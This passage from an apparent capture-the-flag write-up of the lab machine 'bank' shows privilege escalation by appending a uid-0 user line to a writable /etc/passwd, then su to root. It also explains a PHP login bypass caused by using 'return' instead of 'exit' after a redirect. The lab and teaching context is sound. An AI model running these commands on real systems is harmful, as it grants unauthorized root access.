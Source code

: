 

    www-data@bank:/$ echo 'oxdf:$1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0:0:0:pwned:/root:/bin/bash' >> /etc/passwd



The format of the line is colon separated username (can't start with a
digit), password hash, user id, group id, comment, home directory,
shell.

With the user added, I can just `su` to that user, which returns as
root:



    www-data@bank:/$ su - oxdf
    Password: 
    root@bank:~#



## Beyond Root

### Redirect Failure

I was able to access the site without logging in because it was sending
the requested pages in full as part of the 302 redirect response. As I
guessed, each of the PHP pages on the site have the code
`include './inc/header.php';`.

Looking at `header.php`, it includes a lot of the formatting and the top
menu bar. It also does session management with this code:



    session_name("HTBBankAuth");
    session_start();

    if(empty($_SESSION['username'])){
            header("location: login.php");
            return;
    }



The problem here is the `return;`. [This
function](https://www.php.net/manual/en/function.return.php) will:

> *return* returns program control to the calling module. Execution
> resumes at the expression following the called module's invocation.

If this were in the main code, this would actually work. It does end
processing of the rest of `header.php`, which is why when I bypassed the
login, the page didn't have the header bar or any of the CSS formatting.
But it just returns to the calling page, and that page continues
processing.

If I change that return to `exit;`, now visiting `http://bank.htb`
returns a proper 302 message:
